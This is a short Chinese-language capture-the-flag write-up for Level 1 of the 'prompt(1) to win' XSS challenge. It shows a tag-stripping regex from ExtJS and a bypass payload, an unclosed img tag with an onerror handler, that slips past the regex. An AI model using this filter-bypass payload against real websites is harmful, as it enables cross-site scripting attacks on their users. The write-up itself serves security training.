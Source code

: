 ## [[prompt(1) to win](http://prompt.ml)] [[Level 1 - tags stripping](http://prompt.ml/1)] [[解题报告](http://exp-blog.com/2019/03/18/pid-3623/)]

------

## 题目

```javascript
function escape(input) {
    // tags stripping mechanism from ExtJS library
    // Ext.util.Format.stripTags
    var stripTagsRE = /<\/?[^>]+>/gi;
    input = input.replace(stripTagsRE, '');

    return '<article>' + input + '</article>';
}
```

------

## 解题报告

注意观察正则表达式，它会把所有匹配 `<tag>` 或 `</tag>` 的标签全部剥离。

那么不构造完整的 tag 、仅通过属性注入就可以绕过了，如这样的 payload ：

`<img src=0 onerror=prompt(1) ` （**注意末尾有一个空格**）

![](http://exp-blog.com/wp-content/uploads/2019/03/accd9b1c3fb286c6ed3b9f4397b21e33.png)

------

## 版权声明

　[![Copyright (C) 2016-2019 By EXP](https://img.shields.io/badge/Copyright%20(C)-2016~2019%20By%20EXP-blue.svg)](http://exp-blog.com)　[![License: GPL v3](https://img.shields.io/badge/License-GPL%20v3-blue.svg)](https://www.gnu.org/licenses/gpl-3.0)
  

- Site: [http://exp-blog.com](http://exp-blog.com) 
- Mail: <a href="mailto:289065406@qq.com?subject=[EXP's Github]%20Your%20Question%20（请写下您的疑问）&amp;body=What%20can%20I%20help%20you?%20（需要我提供什么帮助吗？）">289065406@qq.com</a>


------
